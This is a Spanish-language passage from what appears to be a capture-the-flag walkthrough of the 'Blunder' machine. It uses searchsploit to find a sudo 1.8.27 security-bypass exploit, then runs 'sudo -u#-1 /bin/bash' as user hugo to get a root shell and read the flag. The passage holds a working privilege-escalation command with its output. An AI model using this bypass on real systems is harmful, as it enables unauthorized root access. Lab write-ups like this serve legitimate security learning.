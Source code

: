 Y de dicha versión, existe un exploit público que nos puede ayudar a escalar privilegios:

```bash
❯ searchsploit sudo 1.8.27
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
sudo 1.8.27 - Security Bypass                                                                  | linux/local/47502.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Dicho exploit nos dice que podemos ejecutar el comando `sudo -u#-1 /bin/bash` y que se nos otorga una shell como **root**. Asi que vamos a probarlo (la contraseña que nos solicita es del usuario **hugo**).

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/home/hugo# whoami
root
root@blunder:/home/hugo#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
